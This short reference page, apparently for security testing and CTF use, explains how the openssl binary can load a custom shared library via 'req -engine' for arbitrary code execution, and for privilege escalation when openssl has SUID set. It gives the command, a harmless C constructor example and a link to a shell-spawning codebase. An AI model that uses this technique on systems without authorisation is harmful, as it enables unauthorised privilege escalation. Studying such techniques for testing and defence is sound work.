 ```yaml
---
title: openssl
description: A reference on features of the openssl binary, relevant for security testing, exploiting and CTF.
---
```


## Code execution/Privilege escalation

The binary `openssl` can be made to load custom libraries via `req -engine /library.so`. This can result in arbitrary
code  execution. If `openssl` has SUID set, this can also lead to privilege escalation.

```bash
openssl req -engine /path/to/custom/library.so
```

The easiest way to write a library in such a way that its code is executed by `openssl` is to add a library constructor
`__attribute__((constructor))`.

```c
void __attribute__ ((constructor)) constructor() {
    printf("I will be executed on library load!");
}
```

A ready-made codebase for getting code execution is available [here](https://github.com/jonasheschl/lib2shell-ssh-keygen).
This codebase also preserves the effective user id. Useful if `openssl` is run with SUID for example.

## References

1. [openssl man page](https://linux.die.net/man/1/openssl)
2. [Blog post by Sean Pesce](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)
3. [Modified lib2shell codebase for exploiting the ssh-keygen behaviour](https://github.com/jonasheschl/lib2shell-ssh-keygen)
